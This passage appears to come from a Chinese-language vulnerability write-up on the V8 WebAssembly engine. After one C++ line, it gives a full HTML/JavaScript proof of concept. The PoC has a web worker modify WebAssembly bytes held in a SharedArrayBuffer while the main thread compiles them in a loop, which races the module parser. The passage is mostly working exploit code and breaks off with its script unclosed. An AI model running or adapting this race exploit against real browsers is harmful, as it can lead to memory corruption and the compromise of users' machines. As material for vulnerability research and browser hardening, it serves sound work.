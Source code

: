 ```code
  return i::wasm::ModuleWireBytes(start, start + length);
}
```
  
一个简单的PoC如下：

```javascript
<html>
<h1>poc</h1>
<script id="worker1">
worker:{
       self.onmessage = function(arg) {
        console.log("worker started");
        var ta = new Uint8Array(arg.data);
        var i =0;
        while(1){
            if(i==0){
                i=1;
                ta[51]=0;   //--->4)modify the webassembly code at the same time
            }else{
                i=0;
                ta[51]=128;
            }
        }
    }
}
</script>
<script>
function getSharedTypedArray(){
    var wasmarr = [
        0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00,
        0x01, 0x05, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03,
        0x03, 0x02, 0x00, 0x00, 0x07, 0x12, 0x01, 0x0e,
        0x67, 0x65, 0x74, 0x41, 0x6e, 0x73, 0x77, 0x65,
        0x72, 0x50, 0x6c, 0x75, 0x73, 0x31, 0x00, 0x01,
        0x0a, 0x0e, 0x02, 0x04, 0x00, 0x41, 0x2a, 0x0b,
        0x07, 0x00, 0x10, 0x00, 0x41, 0x01, 0x6a, 0x0b];
    var sb = new SharedArrayBuffer(wasmarr.length);           //---> 1)put WebAssembly code in a SharedArrayBuffer
    var sta = new Uint8Array(sb);
    for(var i=0;i<sta.length;i++)
        sta[i]=wasmarr[i];
    return sta;    
}
var blob = new Blob([
        document.querySelector('#worker1').textContent
        ], { type: "text/javascript" })

var worker = new Worker(window.URL.createObjectURL(blob));   //---> 2)create a web worker
var sta = getSharedTypedArray();
worker.postMessage(sta.buffer);                              //--->3)pass the WebAssembly code to the web worker
setTimeout(function(){
        while(1){
        try{
        sta[51]=0;
        var myModule = new WebAssembly.Module(sta);          //--->4)parse the WebAssembly code
        var myInstance = new WebAssembly.Instance(myModule);
        //myInstance.exports.getAnswerPlus1();
        }catch(e){
        }
        }
    },1000);

```